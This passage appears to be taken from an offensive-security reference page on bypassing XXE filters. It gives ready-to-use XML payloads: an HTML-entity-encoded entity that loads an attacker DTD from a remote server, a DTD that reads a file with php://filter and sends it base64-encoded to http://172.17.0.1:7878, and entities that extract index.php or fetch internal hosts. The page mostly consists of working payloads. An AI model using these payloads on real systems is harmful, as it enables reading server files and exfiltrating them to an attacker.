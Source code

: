 ### File:/ Protocol Bypass

If the web is using PHP, instead of using `file:/` you can use **php wrappers**`php://filter/convert.base64-encode/resource=` to **access internal files**.

If the web is using Java you may check the [**jar: protocol**](xxe-xee-xml-external-entity.md#jar-protocol).

### HTML Entities

Trick from [**https://github.com/Ambrotd/XXE-Notes**](https://github.com/Ambrotd/XXE-Notes)\
You can create an **entity inside an entity** encoding it with **html entities** and then call it to **load a dtd**.\
Note that the **HTML Entities** used needs to be **numeric** (like \[in this example]\([https://gchq.github.io/CyberChef/index.html#recipe=To_HTML_Entity%28true,'Numeric entities'%29\&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B)\\](<https://gchq.github.io/CyberChef/index.html#recipe=To_HTML_Entity%28true,%27Numeric%20entities%27%29&input=PCFFTlRJVFkgJSBkdGQgU1lTVEVNICJodHRwOi8vMTcyLjE3LjAuMTo3ODc4L2J5cGFzczIuZHRkIiA%2B)%5C>)).

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "<&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x25;&#x64;&#x74;&#x64;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x3E;" >%a;%dtd;]>
<data>
    <env>&exfil;</env>
</data>
```

DTD example:

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://172.17.0.1:7878/bypass.xml?%data;'>">
%abt;
%exfil;
```

## PHP Wrappers

### Base64

**Extract** _**index.php**_

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```

#### **Extract external resource**

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3"> ]>
```
